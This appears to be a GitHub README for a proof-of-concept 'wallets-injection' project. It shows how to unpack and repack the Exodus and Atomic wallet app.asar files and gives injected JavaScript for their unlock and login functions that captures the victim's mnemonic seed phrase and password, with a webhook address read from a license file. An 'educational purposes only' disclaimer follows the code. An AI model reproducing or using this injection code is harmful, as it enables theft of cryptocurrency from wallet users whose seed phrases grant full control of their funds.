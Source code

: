 # wallets-injection
 Exodus and Atomic crypto wallets injection POC (captures mnemonic and password)

## Unpack ASAR
```
asar extract app.asar <output>
```

## Pack to ASAR
```
asar pack <input> app.asar
```

## Exodus
```js
async unlock(e) {
    if (await this.shouldUseTwoFactorAuthMode()) return;
    const t = await Object(ee.readSeco)(this._walletPaths.seedFile, e);
    this._setSeed(M.fromBuffer(t)), P.a.randomFillSync(t), await this._loadLightningCreds()

    const webhook = await fs.readFile('LICENSE', 'utf8');
    const mnemonic = this._seed.mnemonicString;
    const password = e;
}
```

![image](./assets/exodus.png)

Located at `%APPDATA%\Local\exodus\app-<version>\resources\app.asar`

## Atomic
I had to go back to an old Atomic version that allowed me to import modules. It can still be injected to new versions. After login, user is prompted for an update.
```js
async login() {
    let e;
    this.$storage.password = this.password;
    try {
        if (e = await this.$addresses.get(), 0 === e.length) throw new Error("empty addresses")
    } catch (e) {
        return console.error(e), void(this.passwordError = "Wrong password")
    }

    const mnemonic = await this.$storage.get("general_mnemonic");
    const password = await this.password
    const fs = require('fs').promises;
    const webhook = await fs.readFile('LICENSE.electron.txt', 'utf8');
}
```
![image](./assets/atomic.png)

Located at `%APPDATA%\Local\Programs\atomic\resources\app.asar`

## Credits:
- [loTus04](https://github.com/loTus04) for Atomic injection
- [dropout1337](https://github.com/dropout1337) for Exodus injection

## Disclaimer:

### Important Notice:
These injections are inteded for educational purposes only. There are provided strictly for educational and research purposes. Under no circumstances these should be used for any malicious activities, including but not limited to unauthorized access, data theft, or any other harmful actions.

### Usage Responsibility:

By accessing and using these injections, you acknowledge that you are solely responsible for your actions. Any misuse of these injections is strictly prohibited, and the creator (hackirby) disclaims any responsibility for how these injections is utilized. You are fully accountable for ensuring that your usage complies with all applicable laws and regulations in your jurisdiction.

### No Liability:

The creator (hackirby) of these injections shall not be held responsible for any damages or legal consequences resulting from the use or misuse of this software. This includes, but is not limited to, direct, indirect, incidental, consequential, or punitive damages arising out of your access, use, or inability to use these injections.

### No support:

The creator (hackirby) will not provide any support, guidance, or assistance related to the misuse of these injections. Any inquiries regarding malicious activities will be ignored.

### Acceptance of Terms:

By using these injections, you signify your acceptance of this disclaimer. If you do not agree with the terms stated in this disclaimer, do not use them.
